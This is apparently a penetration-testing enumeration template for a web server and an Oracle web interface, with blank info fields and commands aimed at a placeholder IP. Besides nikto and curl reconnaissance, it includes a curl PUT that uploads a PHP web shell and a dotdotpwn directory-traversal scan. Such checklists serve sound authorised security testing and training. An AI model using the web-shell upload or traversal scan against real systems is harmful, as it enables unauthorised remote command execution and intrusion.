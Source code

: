 ### Port 3339 - Oracle web interface


- Basic info about web service (apache, nginx, IIS)
- Server:
- Scripting language:
- Apache Modules:
- IP-address:

### Port 80 - Web server

- Server:
- Scripting language:
- Apache Modules:
- IP-address:
- Domain-name address:


INSERTCURLHEADER

- Web application (ex, wordpress, joomla, phpmyadmin)
- Name:
- Version:
- Admin-login:


```
# Nikto
nikto -h http://INSERTIPADDRESS

# Nikto with squid proxy
nikto -h INSERTIPADDRESS -useproxy http://INSERTIPADDRESS:4444

# Get header
curl -i INSERTIPADDRESS

# Get everything
curl -i -L INSERTIPADDRESS

# Check for title and all links
curl INSERTIPADDRESS -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

# Look at page with just text
curl INSERTIPADDRESS -s -L | html2text -width '99' | uniq

# Check if it is possible to upload
curl -v -X OPTIONS http://INSERTIPADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php

dotdotpwn.pl -m http -h INSERTIPADDRESS -M GET -o unix
```

#### Nikto scan

